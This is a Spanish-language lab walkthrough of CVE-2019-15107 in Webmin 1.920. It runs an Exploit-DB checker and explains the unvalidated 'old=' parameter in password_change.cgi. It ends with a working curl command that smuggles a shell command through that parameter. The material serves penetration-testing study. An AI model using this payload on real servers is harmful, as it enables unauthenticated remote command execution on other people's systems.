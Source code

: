 <br>

<h2 id="Exploit">Probando Exploit: Webmin 1.920 - Remote Code Execution</h2>

Vamos a copiarlo en nuestro directorio de trabajo:
```bash
searchsploit -m linux/webapps/47293.sh
  Exploit: Webmin 1.920 - Remote Code Execution
      URL: https://www.exploit-db.com/exploits/47293
     Path: /usr/share/exploitdb/exploits/linux/webapps/47293.sh
    Codes: CVE-2019-15107
 Verified: False
File Type: POSIX shell script, ASCII text executable
```
Analicémoslo.

Parece que este Exploit, es más un checker que verifica si la máquina/servidor que está usando esta versión de **Webmin** es vulnerable a **Remote Code Execution**.

En caso de que lo sea, va a mostrar **VULNERABLE**:
```bash
./47293.sh http://192.168.10.50:10000
Testing for RCE (CVE-2019-15107) on http://192.168.10.50:10000: VULNERABLE!
```
Y sí, parece que sí es vulnerable.

Lo que podemos hacer ahora es, analizar este Exploit y la versión de **Metasploit**, con tal de ver cómo es que se están ejecutando los comandos.

Quizá podamos desarrollar nuestro propio Exploit.

<br>

<h2 id="Exploit2">Desarrollando Exploit Remote Code Execution para Webmin 1.920</h2>

Aquí te dejo los Exploit que se usaron y analizamos:
* <a href="https://www.exploit-db.com/exploits/47293" target="_blank">Exploit-DB: Webmin 1.920 - Remote Code Execution</a>
* <a href="https://www.exploit-db.com/exploits/47230" target="_blank">Exploit-DB: Webmin 1.920 - Unauthenticated Remote Code Execution (Metasploit)</a>

Además, aquí esta la explicación de como se encontro y se Exploto esta vulnerabilidad:
* <a href="https://pentest.com.tr/exploits/DEFCON-Webmin-1920-Unauthenticated-Remote-Command-Execution.html" target="_blank">DEFCON-Webmin-1920-Unauthenticated-Remote-Command-Execution</a>

<br>

En resumén, la opción `user password change` permite la vulnerabilidad de ejecución remota de código, ya que, si un usuario necesita cambiar su contraseña expirada, **password_change.cgi** aplica este cambio, revisando la contraseña vieja. 

Pues resulta que el parámetro `old=` es el que permite esta vulnerabilidad, ya que no realiza ninguna validación de la data enviada, es decir, no revisa si el usuario o la contraseña es correcta.

Tan solo hay que agregarle una pipe al final del parámetro `old=` y agregar el comando a ejecutar.

Podemos comprobarlo con el siguiente one-liner de **curl**, en el que es necesario poner ciertas cabeceras para que funcione (las mismas que ocupan ambos Exploits que ya probamos):
```bash
curl -sk -X POST http://192.168.10.50:10000/password_change.cgi -H "Cookie: redirect=1; testing=1; sid=x; sessiontest=1" -H "Referer: http://192.168.10.50:10000/session_login.cgi" -H "Content-Type: application/x-www-form-urlencoded" --data 'user=berserk&pam=&expired=2&old=berserk|id&new1=berserk&new2=berserk' | grep -A2 '<div class="panel-body">'
```
